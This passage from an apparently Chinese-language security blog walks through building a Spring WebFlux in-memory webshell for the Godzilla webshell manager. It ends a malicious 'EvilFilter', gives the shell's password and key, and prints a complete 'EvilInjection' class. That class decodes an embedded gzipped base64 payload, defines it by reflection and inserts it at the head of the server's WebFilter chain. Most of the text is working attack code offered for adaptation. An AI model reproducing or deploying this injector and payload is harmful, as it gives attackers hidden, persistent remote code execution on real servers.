                        ByteArrayOutputStream arrOut = new ByteArrayOutputStream();  
                        Object f = ((Class) store.get("payload")).newInstance();  
                        f.equals(arrOut);  
                        f.equals(data);  
                        result.append(md5.substring(0, 16));  
                        f.toString();  
                        result.append(base64Encode(x(arrOut.toByteArray(), true)));  
                        result.append(md5.substring(16));  
                    }  
                } catch (Exception ex) {  
                    result.append(ex.getMessage());  
                }  
                return Mono.just(new DefaultDataBufferFactory().wrap(result.toString().getBytes(StandardCharsets.UTF_8)));  
            });  
        }  
        return exchange.getResponse().writeWith((Mono<DefaultDataBuffer>) bufferStream);  
    }  
  
}
```

密码cmisl，密钥cmisl，请求头cmisl: cmisl。



然后写个注入Webfilter的代码，也就是注入器。在此之前先把刚刚的EvilFilter，首先编译成class，然后gzip压缩，压缩后的文件base64编码。这就是在注入器中要注入的恶意过滤器的编码了。



注入器的代码也不是很难，模仿哥斯拉的其他注入器模板就行了。下面的再简单修改一下就能写进哥斯拉了，哥斯拉本身还是没有写这个类型的内存马的。

```
package cmisl.webfluxmemoryshell.inject;  
  
import org.springframework.web.server.WebFilter;  
import org.springframework.web.server.WebHandler;  
import org.springframework.web.server.handler.DefaultWebFilterChain;  
  
import java.io.ByteArrayInputStream;  
import java.io.ByteArrayOutputStream;  
import java.io.IOException;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationTargetException;  
import java.lang.reflect.Method;  
import java.lang.reflect.Modifier;  
import java.util.ArrayList;  
import java.util.List;  
import java.util.zip.GZIPInputStream;  
  
public class EvilInjection {  
    public static void main(String[] args) {  
  
    }  
  
    public String getUrlPattern() {  
        return "/*";  
    }  
  
    public String getClassName() {  
        return "cmisl.webfluxmemoryshell.filter.EvilFilter";  
    }  
  
    public String getBase64String() throws IOException {  
        return "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";  
    }  
  
    public EvilInjection() {  
        try {  
            Object filteringWebHandler = getFilteringWebHandler();  
            Object defaultWebFilterChain = getDefaultWebFilterChain(filteringWebHandler);  
            Object webFilter = getWebFilter();  
            addWebFilter(filteringWebHandler, defaultWebFilterChain, webFilter);  
  
        } catch (Exception ignored) {  
        }  
    }  
  
    private Object getFilteringWebHandler() throws Exception {  
        Thread[] threads = (Thread[]) invokeMethod(Thread.class, "getThreads");  
        Object FilteringWebHandler = null;  
        for (int i = 0; i < threads.length; i++) {  
            try {  
  
                FilteringWebHandler = getFV(getFV(getFV(getFV(getFV(getFV(threads[i], "this$0"), "handler"), "httpHandler"), "delegate"), "delegate"), "delegate");  
                return FilteringWebHandler;  
            } catch (Exception ignored) {  
            }  
        }  
        return FilteringWebHandler;  
    }  
  
    private Object getDefaultWebFilterChain(Object filteringWebHandler) throws Exception {  
        Object chain = null;  
        try {  
            chain = getFV(filteringWebHandler, "chain");  
            return chain;  
        } catch (Exception e) {  
        }  
        return chain;  
    }  
  
    private Object getWebFilter() {  
        Object webfilter = null;  
        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();  
        try {  
            webfilter = classLoader.loadClass(getClassName()).newInstance();  
        } catch (Exception e) {  
            try {  
                byte[] clazzByte = gzipDecompress(decodeBase64(getBase64String()));  
                Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);  
                defineClass.setAccessible(true);  
                Class clazz = (Class) defineClass.invoke(classLoader, clazzByte, 0, clazzByte.length);  
                webfilter = clazz.newInstance();  
            } catch (Exception ignored) {  
            }  
  
        }  
        return webfilter;  
    }  
  
    private void addWebFilter(Object filteringWebHandler, Object defaultWebFilterChain, Object webFilter) throws Exception {  
        Object handler = getFV(defaultWebFilterChain, "handler");  
        List<WebFilter> AllFilters = new ArrayList<>(((DefaultWebFilterChain) defaultWebFilterChain).getFilters());  
        AllFilters.add(0, (WebFilter) webFilter);  
  
        DefaultWebFilterChain newChain = new DefaultWebFilterChain((WebHandler) handler, AllFilters);  
        Field chainField = filteringWebHandler.getClass().getDeclaredField("chain");  
        chainField.setAccessible(true);  
        Field modifersField = Field.class.getDeclaredField("modifiers");  
        modifersField.setAccessible(true);  
        modifersField.setInt(chainField, chainField.getModifiers() & ~Modifier.FINAL);  
        chainField.set(filteringWebHandler, newChain);  
        modifersField.setInt(chainField, chainField.getModifiers() & Modifier.FINAL);  
    }  
  
  
    private static byte[] decodeBase64(String base64Str) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {  
        Class<?> decoderClass;  
        try {  
            decoderClass = Class.forName("sun.misc.BASE64Decoder");  
            return (byte[]) decoderClass.getMethod("decodeBuffer", String.class).invoke(decoderClass.newInstance(), base64Str);  
        } catch (Exception ignored) {  
            decoderClass = Class.forName("java.util.Base64");  
            Object decoder = decoderClass.getMethod("getDecoder").invoke(null);  
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, base64Str);  
        }  
    }  
  
    public static byte[] gzipDecompress(byte[] compressedData) throws IOException {  
        ByteArrayOutputStream out = new ByteArrayOutputStream();  
        ByteArrayInputStream in = new ByteArrayInputStream(compressedData);  
        GZIPInputStream ungzip = new GZIPInputStream(in);  
        byte[] buffer = new byte[256];  
        int n;  
        while ((n = ungzip.read(buffer)) >= 0) {  
            out.write(buffer, 0, n);  
        }  
        return out.toByteArray();  
    }  
  
    private static Object getFV(Object obj, String fieldName) throws Exception {  
        Field field = getF(obj, fieldName);  
        field.setAccessible(true);  
        return field.get(obj);  
    }  
  
    private static Field getF(Object obj, String fieldName) throws NoSuchFieldException {  
        Class<?> clazz = obj.getClass();  
        while (clazz != null) {  
            try {  
                Field field = clazz.getDeclaredField(fieldName);  
                field.setAccessible(true);  
                return field;  
            } catch (NoSuchFieldException e) {  
                clazz = clazz.getSuperclass();  
            }  
        }  
        throw new NoSuchFieldException(fieldName);  
    }  
  
  
    private static synchronized Object invokeMethod(Object targetObject, String methodName) throws NoSuchMethodException, IllegalAccessException, InvocationTargetException {  
        return invokeMethod(targetObject, methodName, new Class[0], new Object[0]);  
    }  
  
    private static synchronized Object invokeMethod(final Object obj, final String methodName, Class[] paramClazz, Object[] param) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException {  
        Class clazz = (obj instanceof Class) ? (Class) obj : obj.getClass();  
        Method method = null;  
  
        Class tempClass = clazz;  
        while (method == null && tempClass != null) {  
            try {  
                if (paramClazz == null) {  
                    // Get all declared methods of the class  
                    Method[] methods = tempClass.getDeclaredMethods();  
                    for (int i = 0; i < methods.length; i++) {  
                        if (methods[i].getName().equals(methodName) && methods[i].getParameterTypes().length == 0) {  
                            method = methods[i];  
                            break;  
                        }  
                    }  
                } else {  
                    method = tempClass.getDeclaredMethod(methodName, paramClazz);  
                }  
            } catch (NoSuchMethodException e) {  
                tempClass = tempClass.getSuperclass();  
            }  
        }  
        if (method == null) {  
            throw new NoSuchMethodException(methodName);  
        }  
        method.setAccessible(true);  
        if (obj instanceof Class) {  
            try {  
                return method.invoke(null, param);  
            } catch (IllegalAccessException e) {  
                throw new RuntimeException(e.getMessage());  
            }  
        } else {  
            try {  
                return method.invoke(obj, param);  
            } catch (IllegalAccessException e) {  
                throw new RuntimeException(e.getMessage());  
            }  
        }  
  
    }  
}
```

# 参考文章

**设计模式｜发布-订阅模式（Publish-Subscribe Pattern）\_发布订阅模式-CSDN博客[https://blog.csdn.net/weixin\_44435110/article/details/137056222]**

**Java反应式框架Reactor中的Mono和Flux - 码农小胖哥 - 博客园[https://www.cnblogs.com/felordcn/p/13747262.html]**

**一文弄懂 Spring WebFlux 的来龙去脉 - 知乎[https://zhuanlan.zhihu.com/p/559158740]**
